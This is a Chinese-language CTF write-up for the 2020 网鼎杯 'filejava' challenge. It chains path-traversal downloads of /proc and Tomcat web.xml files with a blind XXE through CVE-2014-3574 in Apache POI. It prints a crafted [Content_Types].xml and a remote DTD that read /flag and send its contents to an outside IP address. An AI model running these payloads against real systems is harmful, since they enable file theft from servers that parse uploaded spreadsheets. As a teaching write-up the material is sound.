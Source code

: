 # \[网鼎杯 2020 青龙组]filejava

## \[网鼎杯 2020 青龙组]filejava

## 考点

* 任意文件下载
* Java代码审计
* blind xxe
* CVE-2014-3574

## wp

文件上传功能，上传之后有个文件下载功能

![](<../.gitbook/assets/image (24) (1).png>)

![](<../.gitbook/assets/image (12) (1).png>)

有文件下载，尝试下载`/proc/self/cmdline`，多次测试发现下载链接是`../../../../../../../../../proc/self/cmdline`

![](<../.gitbook/assets/image (26).png>)

再读取`../../../../../../../../../proc/self/environ`

![](<../.gitbook/assets/image (34) (1).png>)

可以发现Tomcat的目录是`/usr/local/tomcat/`，可以读取Tomcat的`web.xml`，`../../../../../../../../../usr/local/tomcat/conf/web.xml`，它定义了系统的Servlet规范

然后读取web应用程序的web.xml，`../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml`，其中定义了web程序的Servlet规范

{% code title="WEB-INF/web.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/DownloadServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>ListFileServlet</servlet-name>
        <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>ListFileServlet</servlet-name>
        <url-pattern>/ListFileServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>UploadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>UploadServlet</servlet-name>
        <url-pattern>/UploadServlet</url-pattern>
    </servlet-mapping>
</web-app>
```
{% endcode %}

依次下载源码，用jd-gui反编译得到源码

ListFileServlet是获取/WEB-INF/upload目录下的文件

DownloadServlet是下载filename传入的文件，它不能是空且不包含flag字符串，然后返回文件内容

{% code title="UploadServlet" %}
```java
......
        if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
......
```
{% endcode %}

代码中对上传文件做了判断，如果文件名以`excel-`开头，且以`xlsx`作为后缀，就使用`org.apache.poi.ss.usermodel.WorkbookFactory`类进行操作，这里是有个cve，即CVE-2014-3574。

新建`excel-test.xlsx`文件，然后解压

![](<../.gitbook/assets/image (37) (1).png>)

修改`[Content_Types].xml`为如下内容

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://81.68.218.54:20010/file.dtd">
%remote;%int;%send;
]>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="bin" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.printerSettings"/><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet2.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet3.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```

vps上的dtd文件如下，再监听端口

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://81.68.218.54:20011?p=%file;'>">
```

然后重新打包为xlsx文件，这里就直接右键->7z打开压缩包，再右键编辑

![](<../.gitbook/assets/image (21) (1).png>)

保存直接上传即可

![](<../.gitbook/assets/image (36).png>)

## 小结

1. blind XXE
2. Tomcat目录结构
